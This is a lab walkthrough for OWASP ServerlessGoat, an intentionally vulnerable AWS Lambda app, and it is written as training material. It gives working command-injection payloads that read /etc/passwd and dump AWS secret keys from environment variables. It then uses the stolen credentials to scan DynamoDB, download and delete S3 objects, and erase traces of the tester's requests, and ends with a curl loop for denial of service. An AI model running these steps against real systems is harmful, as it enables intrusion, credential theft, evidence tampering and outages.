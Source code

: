 # serverless-goat Walkthrough

*Still to add **INSTALL/REMOVAL** steps*

## Lambda Function API
1. Locate the Endpoint URL under CloudFormation Outputs
2. Navigate to URL in a separate browser  
The endpoint loads an OWASP ServerlessGoat page containing a form consisting of 
      * a single user input textbox and submit button  
      * a list of potential vulnerabilities  
3. Click Submit with the currrent value in place  
This loads a A Poison Tree poem with a URL that seems remarkably close to an s3 bucket address

## Information Gathering
1. Click back on the browser to return to the page 
2. Attempt **Function Data Injection** by adding code to the end of the URL  
*e.g. try adding*`; pwd`
3. Click submit to load the original poem as well as **Improper Exception Handling and Verbose Error**  
  *this appears to be vulnerable to __Function Data Injection__*
### Improved injection attempts
1. Click back and change the URL form to a URL that doesn't contain a doc file followed by a snippet of code  
e.g. `https://inject; pwd`
2. Click submit to load the current working directory */var/task* 
3. Repeat this tasks with the following bash code add for more information resulting from **Over-Privileged Function Permissions**  
**Document everything for later**    
`https://inject; whoami`
   *Current user should be sbx-user0666 or similar*   
`https://inject; ls -la`
    *Lists the current directory (index.js + node_modules subdirectory)*   
`https://inject; cat /etc/passwd` 
  *Lists current users*  
`https://inject; cat index.js`
    *Provides code for basic information on how this page functions*   
    Important information to be gathered from this file includes
      * Database 
      * S3 bucket Put permissions
      * node.js package used 
      * Table information 
      * Permissions to curl (potentially) 
      * Output URL 
 4. Explore file contents  
 `https://inject; cat node_modules/.bin/uuid`   
 USAGE: `uuid [ver] [options]` + some encryption math used to generate keys  
 this doesn't seem to be entirely random
 5. Read more javascript
  `https://inject; cat node_modules/node-uuid/package.json`  
  *lists package version*  
  Research into this version of UUID results in a known vulnerability to insecure randomness  
  **TL:DR;** math.random can produce predictable values and this in an **Insecure 3rd Party Dependency**  
  keys generated and for storage in the s3 bucket may be predicted  
  This could be *very* interesting if it was used to store PII, but it isn't for this circumstance  
 6. Check for unsecured environmental variables  
 `https://inject; env`  
 Results in **Insecure Application Secrets Storage**: 
       * aws_session_token
       * aws_secret_access_key
       * aws_access_key
       * table name
       * s3 bucket name

### S3 Bucket Access with No Credentials
1. Explore the bucket address by opening a new tab, and copying/pasting the URL in the old tab with modifications  
    * URL Modifications for the 2nd tab:  
      - remove the last portion of the URI (e.g. /a3243c-321c-9d21-342f3ebc2a09)  
      - change the s3-website-us-east-1.amazonaws.com to be a correct bucket address (s3.amazonaws.com)
2. Now that the URL modifications have been made, load the s3 bucket  
This site contains information concerning the s3 bucket contents, and each Key listed can be added to the URL as a path  
This site does has a **Broken Authentication** vulnerability because it does not require any authorization for access  
This site also contains the **Insecure Serverless Deployment Configuration** vulerability for the following reasons
      * The s3 bucket URL should not be easy to infer
      * This page should be secured and encrypted instead of being publicly accessible 
Return to the previous tab

### Node.js Access
Attempt to access content/information using Node.js  
1. What version of node.js?  
`https://; node -e 'const AWS = require(\"aws-sdk\"); (async () => {console.log("Running Node.js" + process.version))})();'`
2. Can the database be scanned?  
`https://; node -e 'const AWS = require(\"aws-sdk\"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME}).promise());})();'`

## Enumeration
### Profile Enumeration
1. Using the information found in the env variables create a user profile 
`aws configure profile --user666`  
    * aws_secret_access_key    
    * aws_access_key   
    * us-east-1
2. Add the aws_session_token to the end of the user profile configuration by editing the *~/.aws/credentials* file  
`vim ~/.aws/credentials`  
`aws_session_token = <aws_session_token>`
3. Obtain current profile information 
`aws sts get-caller-identity --profile user666`  
**Improper Exception Handling and Verbose Errors**

### Database Actions Enumeration
1. Attempt to scan the database contents  
`aws dynomodb scan --table-name <table-name> --profile user`


### S3 Bucket Actions Enumeration
1. Attempt to list Bucket Contents  
`aws s3 ls <s3-bucket> --profile user` 
2. Attempt to download bucket contents  
`aws s3 sync s3://<s3-bucket> . --profile user`
3. Review downloaded bucket content  
`ls -la`
4. Display commands run via Lambda Function
`cat <key>`
5. Attempt to delete bucket contents  
`aws s3api delete-object --bucket <s3-bucket> --key <key> --profile`
6. Remove all traces of requests by your IP address by repeated step 5 for each key value found  

### DoS Attack
Create a simple bash script to curl the site multiple times   
This will demonstrate the serverless function going from reachable to unreachable  
*internal server errors* are proof of a successful DoS Attack
1. Start with the http address after a function is sent  
(https://<x>.execute-api.us-east-1.amazonaws.com/Prod/api/convert?document_url=)
2. Copy the address between brackets, URL encode it, and then add to the end of the address 
3. Repeat Step 2 5x for the <http-address> value, which will perform the DoS
4. The run the following bash script  
``` bash
for i in {1.100}; do  
  echo $i  
  curl -L <http-address>  
done
```

